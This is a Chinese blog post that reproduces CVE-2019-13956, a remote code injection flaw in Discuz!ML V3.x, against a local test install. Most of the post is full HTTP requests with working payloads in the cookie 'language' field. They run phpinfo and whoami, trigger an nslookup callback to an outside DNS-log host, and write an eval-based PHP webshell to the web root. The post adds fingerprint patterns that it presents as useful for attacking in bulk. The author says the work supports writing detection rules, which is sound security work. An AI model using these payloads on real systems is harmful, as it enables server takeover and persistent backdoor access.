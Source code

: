 ```yaml
---
layout:     post
title:      【复现】Discuz!ML V3.X 代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-19
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Discuz!ML V3.X 代码注入漏洞
* CVE编号：CVE-2019-13956
* 发布时间：2019-06-14
* 漏洞说明：该漏洞存在于请求流量中的cookie参数中的language字段，攻击者能够利用该漏洞在请求流量的cookie字段中（language参数）插入任意代码，最终执行任意代码，从而实现完全远程接管整个服务器的目的。
* 影响范围：Discuz! ML v.3.4、Discuz! ML v.3.3、Discuz! ML v.3.2
* 修复建议：目前官方暂未进行安全更新，使用该CMS的用户可时刻关注官方网站以及代码托管网站获取最新信息


## 0x01 环境搭建
首先去官网下载源码：
[http://discuz.ml/download](http://discuz.ml/download)
下载完成后，解压到WWW目录下，打开phpstudy，访问URL，出现安装界面：
![图片](../../../../img/discuz_ml_rce_1.png)
正确填写数据库信息和管理员信息点击下一步：

![图片](../../../../img/discuz_ml_rce_2.png)

稍等几秒后，出现completed说明安装完成：
![图片](../../../../img/discuz_ml_rce_3.png)



## 0x02 漏洞复现
### Poc验证
我们可以利用phpinfo信息来验证漏洞是否存在：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_language=sc'.phpinfo().'; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_lastact=1568857423%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_4.png)

我们也可以利用system函数去执行系统命令来验证漏洞是否存在，whoami是Windows/Linux通用命令：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('whoami').%27; u7ip_2132_lastact=1568857490%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_5.png)

但是whoami回显的内容不容易被程序识别，因此我们可以借用DNSLOG平台来验证，考虑到nslookup有些Linux服务器可能没有，也可以使用ping dnslog_server：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('nslookup 4evdeu.dnslog.cn').%27; u7ip_2132_lastact=1568857490%09index.php%09
```


![图片](../../../../img/discuz_ml_rce_6.png)

### EXP利用
我们可以通过这个漏洞来写webshell，HTTP请求包如下，执行成功会返回正常页面，执行错误会报错，webshell在网站根目录下：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: X9O9_2132_saltkey=seXAWPyb; X9O9_2132_language=sc'.file_put_contents%28%27x.php%27%2Curldecode%28%27%253c%253fphp%2520@eval%28%2524_%25%35%30%25%34%66%25%35%33%25%35%34%255b%2522x%2522%255d%29%253b%253f%253e%27%29%29.'; X9O9_2132_lastvisit=1568854995; X9O9_2132_sid=ZUI7iz; X9O9_2132_sendmail=1; sid=abc48gBCCWNz%252FH9NX2yt9UHcyxMQp02Yw80wGxY%252B%252Bqf7oBiEN31WIcrdCg; X9O9_2132_lastact=1568858654%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_7.png)

![图片](../../../../img/discuz_ml_rce_8.png)


## 0x03 Web指纹
想要批量怎么能木有指纹？！
* <meta name\="generator" content\="Discuz! (.*?)" />
* <meta name\="author" content\="Discuz!(.*?)" />
## 0x04 总结

1、一开始在利用漏洞写php webshell的时候，出现了报错，最后是在Github上的利用工具中发现了不报错的EXP，这个项目的地址是[https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py](https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py)，没有这个我估计又得自闭了。
2、在写策略的时候，遇到cookie随机的问题，通过写了一个正则表达式匹配了出来
`[A-Za-z0-9]{4}_[A-Za-z0-9]{4}_language=[A-Za-z]{2}`
